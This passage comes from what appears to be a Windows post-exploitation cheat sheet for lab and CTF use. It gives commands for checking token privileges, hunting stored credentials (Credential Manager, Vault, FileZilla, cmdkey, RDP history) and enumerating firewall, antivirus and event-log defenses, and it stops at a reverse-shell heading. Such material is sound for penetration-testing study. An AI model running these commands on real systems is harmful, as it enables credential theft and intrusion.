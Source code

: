 ```cmd
whoami /priv
# Look for SeImpersonatePrivilege, SeAssignPrimaryTokenPrivilege
```

***

### XI. 🧱 Credential Hunting (Legal Labs Only)

#### ⚙️ Common Loot Paths

```cmd
dir /s /b C:\Users\*\AppData\Roaming\Microsoft\Credentials\
dir /s /b C:\Users\*\AppData\Local\Microsoft\Vault\
dir /s /b C:\Users\*\AppData\Roaming\FileZilla\
```

#### 🔑 Cached Credentials

```cmd
cmdkey /list
```

#### 💡 RDP History

```cmd
reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"
```

***

### XII. 🧩 Defense Awareness

#### 🔥 Firewall Rules

```cmd
netsh advfirewall show allprofiles
netsh advfirewall firewall show rule name=all
```

#### 🧠 AV Detection

```cmd
sc query windefend
wmic /namespace:\\root\SecurityCenter2 path AntiVirusProduct get displayName,productState
```

#### ⚙️ Windows Event Logs

```cmd
wevtutil el | find "Security"
wevtutil qe Security /f:text /c:10
```

***

### XIII. 🧠 Reverse Shells (Lab / CTF Only)
